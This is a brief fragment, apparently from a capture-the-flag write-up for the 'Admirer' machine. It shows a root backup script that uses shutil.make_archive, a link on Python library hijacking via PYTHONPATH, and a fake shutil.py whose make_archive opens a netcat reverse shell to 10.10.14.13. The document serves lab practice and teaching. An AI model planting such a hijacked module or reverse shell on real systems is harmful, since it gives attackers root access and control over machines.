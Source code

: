 
#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)


https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8

Redirecting Python Library Search through PYTHONPATH Environment Variable


waldo@admirer:/dev/shm$ cat shutil.py 
import os 

def make_archive(a,b,c):
  os.system("/bin/nc 10.10.14.13 1337 -e /bin/bash") 